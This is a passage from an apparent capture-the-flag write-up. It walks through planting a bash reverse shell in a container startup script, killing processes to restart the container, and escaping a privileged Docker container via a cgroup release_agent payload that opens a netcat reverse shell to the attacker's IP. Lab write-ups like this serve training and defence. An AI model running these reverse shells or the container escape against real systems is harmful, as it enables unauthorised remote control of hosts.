There is a file linked to ../root/start.sh, but there is no root directory in /opt, but there is one in /, lets move this file to /tmp.

```
$ mv ./startcon /tmp
$ cd /tmp
$ cat startcon
#!/bin/bash

service ssh start
service apache2 start
su - cave -c "cd /home/cave/src; ./run.sh"

/bin/bash
```

This looks like a file that executes when the system starts and if we cat /proc/1/cgroup, we can see that we are inside a docker container.

If we try to edit this file, we can see that we can do it, so i added a bash -i >& /dev/tcp/[YOUR_VPN_IP]/1234 0>&1 to the file and then started a netcat listener in my machine.

Now we need to know how to restart a docker container from the inside, searching on the web i found out that, to stop a docker container from inside, you need to kill the proccess with the PID 1. We can kill processes.

Now we can go on killing off all processes until the container stops.

When the container stops, we get a connection in our listener.

Lets go to /root, there we have a info.txt:

```
You were analyzing the invisible wall and after some time, you could see your reflection in the corner of the wall.
But it wasn't just like a mirror, your reflection could interact with the real world, there was a link between you two!
And then you used your reflection to grab a little piece of the root of the tree and you stuck it in the wall with all your might.
You could feel the cave rumbling, like it was the end for you and then all went black.
But after some time, you woke up in the same place you were before, but now there was no invisible wall to stop you from getting in the root.

You are in the root of a huge tree, but your quest isn't over, you still feel ... contained, inside this cave.

Flag:[REDACTED]
```

Okay, we are in a container, we know that, now we need to escape.

Searching how to escape docker containers I stumbled upon [this post](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1), we can see that we are indeed in a privileged container, so following the instructions in it we can execute any command we want, so let's try to get a reverse shell in the host machine.

```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR_VPN_IP] 5555 >/tmp/f" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
